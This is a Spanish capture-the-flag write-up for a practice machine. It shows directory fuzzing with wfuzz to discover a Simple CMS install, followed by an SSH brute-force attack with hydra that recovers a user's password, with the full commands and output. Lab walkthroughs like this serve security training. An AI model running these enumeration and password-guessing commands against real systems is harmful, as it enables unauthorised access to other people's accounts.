 ## [](#header-4)Web

Vamos a visitar la web y vemos que es una pagina default de Apache
[Web-SimpleCTF](http://easyctf.thm)

![](https://alvar-yoel.github.io/images/SimpleCTF/Apache.PNG)

### [](#header-4)Fuzzing
Ahora tenemos esa pagina web vamos a enumerar sitios web para ello utilizaremos **wfuzz**
```shell
parrot-hacking@SimpleCTF:~$ wfuzz -c -L -t 100 --hc=404 --hh=616 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://easyctf.thm//FUZZ

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://easyctf.thm//FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                   
=====================================================================

000004567:   200        126 L    1182 W     19833 Ch    "simple"                                                                                  
000095524:   403        11 L     32 W       299 Ch      "server-status"                                                                           

Total time: 0
Processed Requests: 220560
Filtered Requests: 220558
Requests/sec.: 0
```

Ahora iremos a _/simple/_ alli veremos que estamos ante un Simple CMS
[SimpleCMS-TryHackMe](http://easyctf.thm/simple/)

![](https://alvar-yoel.github.io/images/simplectf/CMS.PNG)

# [](#header-4)Explotacion

Hay varias formas de convertirnos en usuario por fuerza bruta o por un CVE

## [](#header-4)Fuerza Bruta al SSH(1º Forma de conseguir el usuario)
Lo que vamos a hacer es con **hydra** atacar por _fuerza bruta_ al _ssh_ y vemos que la contraseña es `secret`
```shell
parrot-hacking@SimpleCTF:~$ hydra -s 2222 -l mitch -P /usr/share/wordlists/rockyou.txt easyctf.thm -t 4 ssh

Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-26 15:13:17
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344401 login tries (l:1/p:14344401), ~3586101 tries per task
[DATA] attacking ssh://easyctf.thm:2222/
[2222][ssh] host: easyctf.thm   login: mitch   password: secret
```